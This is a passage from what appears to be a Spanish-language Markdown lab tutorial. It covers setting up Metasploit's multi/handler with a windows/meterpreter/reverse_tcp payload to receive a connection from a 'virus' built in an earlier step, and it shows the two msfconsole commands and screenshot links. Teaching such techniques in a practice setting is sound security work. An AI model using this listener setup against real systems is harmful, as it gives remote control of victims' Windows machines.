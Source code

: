 <p align="center"><img width="600" src="/images/Captura-msfconsole.png"></p>

## 3.2. Configuracion del exploit y payload

Ahora que hemos abierto la consola, podremos ajustar el **exploit** y **payload** que vamos a usar para hacer esta práctica. 

Por ello, empezaremos a ajustar el exploit con el siguiente comando:

```bash
use exploit/multi/handler
```
<p align="center"><img width="600" src="/images/Captura-Exploit.png"></p>

Después, definiremos el **payload** que vamos a usar. En este caso es el que hemos puesto anteriormente al crear el virus. Para ello se va a hacer uso del siguiente comando:

```bash
set payload windows/meterpreter/reverse_tcp
```
<p align="center"><img width="600" src="/images/Captura-Payload.png"></p>
